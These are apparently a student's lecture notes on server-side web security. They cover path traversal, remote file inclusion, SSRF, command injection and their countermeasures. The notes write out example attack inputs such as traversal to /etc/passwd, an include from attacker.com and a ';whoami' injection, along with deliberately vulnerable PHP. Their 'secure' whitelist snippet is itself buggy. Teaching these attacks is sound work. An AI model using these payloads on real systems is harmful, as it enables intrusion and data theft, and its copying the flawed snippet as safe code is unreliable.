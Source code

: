 # 12 - Server-side Security

## Web-server Architectures

### CGI Scripting

**Common Gateway Interface** (CGI) is a way for web servers to execute programs that execute like command-line programs. The server passes requests to an appropriate executable, running one process per request. HTTP request data is passed in via standard input/output, but other things such as headers, arguments, and URL paths are presented as process environment variables.

![image-20200216174236339](12 - Server-side Security.assets/image-20200216174236339.png)

### Server-side Scripting

This is where the server directly executes script. This tends to be faster than CGI and more powerful because it can reconfigure the server. This also makes it more dangerous.

### FastCGI

In **FastCGI** there is a persistent process that handles multiple requests. These processes are owned by the FastCGI server, not the web server. The web server used **TCP** or **local sockets** to talk to an **app server** (which can be remote). This makes load balancing easy.

### Reverse Proxy

A **reverse proxy** is a type of web server that retrieves resources on behalf of a client from one or more servers. These are then returned to the client, appearing as if they originated from the client itself.

![A proxy server connecting the Internet to an internal network.](https://upload.wikimedia.org/wikipedia/commons/thumb/6/67/Reverse_proxy_h2g2bob.svg/1920px-Reverse_proxy_h2g2bob.svg.png)

The reverse proxy server is lean, fast, secure, and handles static conect, TLS termination etc. It can also be used for **load balancing** and **caching**. The application server can focus on application logic.

## Comprimising a Web Server

![image-20200216175531358](12 - Server-side Security.assets/image-20200216175531358.png)

To comprimise a server, we have already covered some techniques. Attack tree:

1. Compromise server
   1. Use social engineering
   2. Use an insider
   3. Exploit OS network stack
   4. Compromise other applications and services
   5. Compromise web server

Focusing on 5.

5. Compromise web server
   1. Compromise daemon
      1. Exploit a known vulnerability
      2. Exploit a new vulnerability
   2. Exploit insecure configuration
      1. Exposed CGI scripts, default pages and applications
   3. Compromise the server via the web application

## Path Traversal

This is where attacker inputs cause the server to disclose an unintended resource.

Examples:

- `http://www/example.com/../../etc/passwd`
- `http://www.example.com/images/download.asp?name="../../etc/passwd"`

Attackers can guess URLs, or can use a crawling application. 

### Countermeasures

- A special `www` user can be created for the web app server with only access to public files.
- Web app process sanboxed to a virtual file system using `chroot jail`
  - Changes the apparent root directory for the process
  - File descriptors are a possible attack vector
- Use further access control restrictions

## Remote File Inclusion

Vulnerable code:

```PHP
$nextpage = $_REQUEST["subpage"];
include($nextpage.".php");
```

If `php.ini`settings allow `allow_url_fopen=1` then file operations can follow URLs. So `http://example.com/index.php?subpage=http://attacker.com/evil`will `include` (=execute) `http://attacker.com/evil.php` on our server. Other dangerous functions are

- `include_once()` same as include, but only does it once.
- `require()` almost identical to include, but fails whereas `include` gives a warning.
- `require_once()` see above.
- `fopen()` opens a file or URL.
- `readfile()` outputs a file.
- `file_get_contents()` reads an entire file into a string.

To be secure, the following pattern should be used

```php
$nextpages = array("blog", "admin", "profile"); // Whitelist of page names
$nextpages = $_REQUEST["subpage"];
if (!in_array($nextpage, $nextpages)) { 
    echo "Invalid request!"; 
}
else {
    $file = $nextpage."php";
    if (!file_exists($file)) { 
        echo "File not found"!; 
    } else {
        include($file);
    } 
}
```

## Server-side Request Forgery

An attack where the attacker can supply a URL which the server will read or submit data to. Any requests that the server makes are beyond the firewall and have server privileges, and may address the internal network. Examples:

- Data exfiltration `GET /?url=file:///etc/passwd HTTP/1.1`
- Port scanning `GET /?url=http://127.0.0.1:22 HTTP/1.1`

### Countermeasures

- Prevent the user from providing URLs.
- Whitelist requests that the server can make.
- Don't handle unexpected responses.

## Untrusted Query String

This is where the attacker tampers with the URL query string.

### Insecure Direct Object References

```
update.php?account={target_id}&action=unsubscribe
```

The application exposes a reference to an internal implementation object (user ID). The attacker can guess a valid ID to target a different user.

### Missing Function-level Access Control

``` 
update.php?account=userid&action=upgrade_to_root
```

This will be accepted on the server without additional checks, even if it was not a choice available to the user on the client side.

### Countermeasures

- Don't trust user input.
- Deny operations by default, enable only after authorisation checks.
- Bind user parameters to user session.

### Command Injection

This is where attacker input causes the execution of desired commands on the server.

```
http://example.com/ping_app/ping?ip=192.168.0.1;whoami
```

Example of PHP injection:

```php
$in = $_GET["param"];
eval("$out = " . $in . ";");
```

Example of shell command injection:

```php
$email = $_POST["email"];
$subject = $_POST["subject"];
system("mail $email -s $subject < tmp/text")
```

### Countermeasures

- Blacklisting: only allow inputs matching a forbidden pattern
  - Caveat: blacklists are fragile, and the attacker may find new dangerous parameters not in the list.
- Whitelisting: allow only inputs matching an allowed pattern.
  - More robust, but tricky to avoid false positives.
- Static and dynamic analysis.

## Attacks on the Application

Application logic can be subverted. Memory corruption can be used to attack on a low level. Examples

- Buffer overflow
- Format-string abuse
- Integer over/underflow
- Use-after-free, double-free

### Other Server Security Issues

- Brute forcing
- Sensitive data exposure
  - Sensitive comments
  - Leaked system configurations from verbose error messages